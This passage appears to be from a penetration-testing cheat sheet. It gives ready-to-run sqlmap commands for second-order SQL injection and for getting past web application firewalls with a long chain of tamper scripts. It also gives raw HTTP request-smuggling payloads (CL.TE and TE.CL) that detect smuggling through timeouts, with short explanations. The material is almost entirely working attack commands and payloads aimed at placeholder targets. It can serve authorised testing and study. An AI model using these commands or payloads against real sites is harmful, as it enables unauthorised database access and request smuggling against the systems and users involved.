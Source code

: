 ### Sqlmap Second-Order SQLi
```
sqlmap -u http://target-app.com --second-req http://target-app.com/user/profile --level=3 --risk=1
```

### Sqlmap Tampering Techniques ([source](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3))

- tell `sqlmap` to use tampering techniques for bypassing WAF that are database agnostic
- 
```
sqlmap -u http://target-app.com --level=3 --risk=1 \
	--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### Identifying HTTP Request Smuggling via Timeouts

- You might want to also try add a space or tab character before/after the `Transfer-Encoding` header to see if the front-end server doesn't process the header the same and maybe the front-end ignores the TE, forcing it to use the `Content-Length` header.

#### CL.TE
- The front-end server only forwards the 1 and A but not the X because of its using the `Content-Lenght` to determine the body of the request, but because the backend server is using the `Transfer-Encoding` header to determine the size of the request, it waits for the final chunk to arrive and termination (`0`), but it never does so it times out.
```
POST / HTTP/1.1
Host: vulnerable-site.com
Content-Length: 4
Transfer-Encoding: chunked

1
A
X
```

#### TE.CL
- The front-end server only forwards the 0, carriage return, and line feed, not the X, because it processes the request using chunked encoded - but backend server is expecting 6 characters in the message body, so it hangs and then it times out.
```
POST / HTTP/1.1
Host: vulnerable-site.com
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
